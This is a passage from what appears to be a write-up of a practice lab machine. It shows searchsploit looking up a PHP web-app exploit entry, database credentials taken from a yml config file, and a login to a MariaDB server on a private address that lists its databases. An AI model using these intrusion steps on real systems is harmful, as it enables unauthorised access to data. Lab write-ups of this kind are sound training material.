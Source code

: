 ```bash
searchsploit -x php/webapps/50176.txt
```

![](/assets/images/Bah-1.png)

Go to `yml` file:

![](/assets/images/Bah-2.png) ^8740a5

**Key points:** 
- Its DBM is `mysql`

Can use these credentials for log in mysql

### Step 5: Log in mysql

```bash
❯ mysql -h 192.168.0.100 -u <name_user> -p<pass_user>
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 58
Server version: 10.5.11-MariaDB-1 Debian 11

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```

```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| hidden             |
| information_schema |
| mysql              |
| performance_schema |
| qpm                |
+--------------------+
5 rows in set (0,095 sec)

MariaDB [qpm]> use hidden; show tables;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```